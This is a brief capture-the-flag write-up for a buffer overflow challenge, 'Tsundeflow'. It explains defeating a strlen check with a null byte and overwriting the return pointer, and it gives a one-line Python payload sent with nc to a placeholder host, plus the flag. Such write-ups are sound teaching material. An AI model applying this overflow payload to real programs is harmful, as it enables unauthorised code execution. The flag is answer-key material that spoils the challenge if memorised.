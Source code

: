 # Tsundeflow

**Points:** 80 **Description:** 

## Solution

For this challenge we need to overwrite the return pointer of the program to point to the win function.  But first we need to overcome the input length check by strlen. If we read the man page of strlen we can see that it checks length of string until the null terminator so all we need to do is put a null terminator in our payload.

`(python -c 'print "a"*20+"\x00"+"AAAABBBBCCCCDDD" + "\x7b\x85\x04\x08"'; cat -) | nc <sever> <port>`

Flag is GCTF{51mpl3\_buff3r\_0v3rfl0w_f0r_75und3r35}.